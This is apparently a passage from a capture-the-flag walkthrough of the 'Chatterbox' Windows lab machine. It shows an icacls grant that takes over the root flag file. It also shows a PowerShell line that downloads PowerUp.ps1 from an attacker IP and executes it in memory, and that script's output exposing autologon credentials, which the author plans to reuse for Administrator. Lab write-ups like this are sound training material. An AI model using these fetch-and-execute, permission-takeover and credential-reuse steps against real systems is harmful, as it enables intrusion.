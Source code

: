 Viewing the permission on `root.txt`. We observer that only `Administrator` has full access(F) on that file.
```
PS C:\users\administrator\desktop> icacls root.txt
root.txt CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files
```

Since we're able to enter into `desktop` directory. let's check our permissions on the directory
```
PS C:\users\administrator> icacls Desktop
Desktop NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
        CHATTERBOX\Administrator:(I)(OI)(CI)(F)
        BUILTIN\Administrators:(I)(OI)(CI)(F)
        CHATTERBOX\Alfred:(I)(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files
```

We've full access(F) on the `Desktop` directory .The `Alfred` user also configured to own the `root.txt` file.
So we can simply grant access to ourselves  using `icalcs`.
```
PS C:\users\administrator\desktop> icacls root.txt /grant alfred:F
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files
```
And now we're able to view the `root.txt` file.
```
PS C:\users\administrator\desktop> (gc root.txt).substring(0,16)
a673d1b1fa95c276
```

## Privilege escalation through Auto Login creds
We can run `PowerUP.ps1` and perfom `Invoke-AllChecks` to see any possible privesc vectors.
```
PS C:\tmp> IEX(New-Object Net.WebClient).downloadString("http://10.10.14.17/PowerUp.ps1")
PS C:\tmp> Invoke-AllChecks                                                                                   <SNIP>                                      
DefaultDomainName    :                                                                                                                                                   
DefaultUserName      : Alfred                                                                                                                                            
DefaultPassword      : Welcome1!                                                                                                                                         
AltDefaultDomainName :                                                                                                                                                   
AltDefaultUserName   :                                                                                                                                                   
AltDefaultPassword   :   
<SNIP>
```
It reveals the `Auto Login` is enabled for `Alfred` user and its password is `Welcome1!`. We can try same password for `Administrator` and see if it works.
